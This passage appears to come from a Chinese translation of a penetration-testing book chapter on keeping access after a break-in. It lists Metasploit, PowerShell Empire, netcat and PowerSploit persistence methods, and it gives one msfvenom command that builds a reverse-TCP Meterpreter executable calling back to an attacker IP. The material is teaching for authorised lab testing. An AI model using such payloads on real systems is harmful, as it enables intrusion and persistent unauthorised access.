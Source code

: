 # 第十五章：*第十七章*：保持访问

我们已经在这些章节中一起走过了很长的路。现在我们来到这里，提出剩下的问题：在你强行进入并证明客户的防御存在漏洞之后——*如何保持我的访问权限？* 这是一个有趣的问题，因为它常常被忽视，尽管它非常重要。当很多人谈论黑客攻击时，他们想到的是如何突破防线的兴奋感。黑客攻击是解决问题的过程，有时我们容易忘记，保持访问权限本身也是一个问题。特别是在渗透测试的背景下，由于我们通常有紧迫的时间表，持久化往往会被视为理所当然。有时，看似有一个竞赛要赶紧获得域管理员或 root 权限，然后就停下来撰写报告。遗憾的是，评估往往就是这样安排的，尤其是在当今这个**高级持续性威胁**（**APT**）的时代。

记住你在评估中的一个广泛目标：从低调到相对显眼地升级，并注意你被捕获的时机。获得域管理员权限时没人注意到，和当当局破门而入时获得域管理员权限，结果是完全不同的。这种心态应延续到持久化阶段。

本章我们将涵盖以下内容：

+   使用 Metasploit 和 PowerShell Empire 实现持久化

+   快速简陋的持久化 netcat 隧道

+   使用 PowerSploit 实现持久化访问

# 技术要求

本章的前提条件如下：

+   Kali Linux

+   一个 Windows 10 或 7 虚拟机

# 使用 Metasploit 和 PowerShell Empire 实现持久化

我们在本书的多个章节中讨论了生成有效载荷。我们用**msfvenom**生成了不同格式和自定义选项的有效载荷，也探讨了如何使用 Shellter 对合法可执行文件进行隐蔽修补，进行高级攻击。现在，我们通过利用 Metasploit 的持久化模块，来完成这个讨论。

## 为 Metasploit 持久化模块创建有效载荷

为了演示，我们将生成一个快速简陋的反向 Meterpreter 可执行文件。然而，请注意，当我们配置持久化模块时，可以使用任何我们想要的可执行文件。

我们将通过以下命令保持简单明了：

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.154.133 LPORT=10000 -f exe > persist.exe

当然，请替换为你自己的 IP 地址和本地端口：

![图 17.1 – 使用 msfvenom 生成有效载荷](img/Figure_17.01_B17616.jpg)

图 17.1 – 使用 msfvenom 生成有效载荷
